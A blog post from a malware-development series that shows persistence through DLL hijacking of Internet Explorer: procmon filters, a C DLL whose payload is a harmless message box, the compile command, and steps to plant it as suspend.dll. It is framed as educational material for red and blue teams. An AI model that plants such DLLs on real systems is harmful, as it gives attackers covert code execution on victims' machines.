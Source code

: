 ```yaml
---
title:  "Malware development: persistence - part 15. Internet Explorer. Simple C++ example."
date:   2022-10-12 03:00:00 +0300
header:
  teaser: "/assets/images/75/2022-10-13_00-24_1.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/75/2022-10-13_00-24_1.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via Internet Explorer.     

### internet explorer

In one of my [previous posts](/pentest/2021/10/12/dll-hijacking-2.html) I wrote about real world example of DLL hijacking. In this time the victim is Internet Explorer. Surely many of you do not even use it and are unlikely to deleted it on purpose from Windows system.    

### practical example

As in my previous post, let’s go to run [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, and setting the following filters:    

![pers](/assets/images/75/2022-10-13_00-03.png){:class="img-responsive"}    

Then run `Internet Explorer`:     

![pers](/assets/images/75/2022-10-13_00-04.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-04_1.png){:class="img-responsive"}    

As you can see, the process `iexplore.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `suspend.dll`:     

![pers](/assets/images/75/2022-10-13_00-05.png){:class="img-responsive"}    

Let's go to search any other probably locations, maybe we have legit DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](/assets/images/75/2022-10-13_00-09.png){:class="img-responsive"}    

But as you can see, file not found so, this DLL is used by Internet Explorer only.    

Then, I prepared "evil" DLL, `meow-woof` messagebox:        

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### demo

Let's go to see everything in action. Compiling our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](/assets/images/75/2022-10-13_00-12.png){:class="img-responsive"}    

Then naming the file `suspend.dll` and placing it in the directory where Internet Explorer is loaded:     

![pers](/assets/images/75/2022-10-13_06-13.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-15.png){:class="img-responsive"}    

And finally try to run our victim application:     

![pers](/assets/images/75/2022-10-13_00-16_1.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-18.png){:class="img-responsive"}    

![pers](/assets/images/75/2022-10-13_00-24.png){:class="img-responsive"}    

After we close pop-up IE work correctly, not crashed:    

![pers](/assets/images/75/2022-10-13_00-16.png){:class="img-responsive"}    

As you can see, it's worked. Perfect! =^..^=     

### conclusion

We now have achieved persistence via IE.    

That's why this post belongs to the persistence category, our malicious DLL will launch anytime user starts IE too. And, when they exit it too. Surprise for my windows lovers. You don't even have to install or remove anything.    

It's worked also on `Windows 11 x64`:     

![pers](/assets/images/75/2022-10-13_06-37.png){:class="img-responsive"}    

Although it’s unlikely that anyone will launch IE in 2022, will you agree?    

As a Windows bug hunter, if you want to find privilege escalation vulnerabilities on the operating system itself, you’ll often want to start from a blank page, with a clean installation of Windows.      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/2022-10-12-malware-pers-15)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
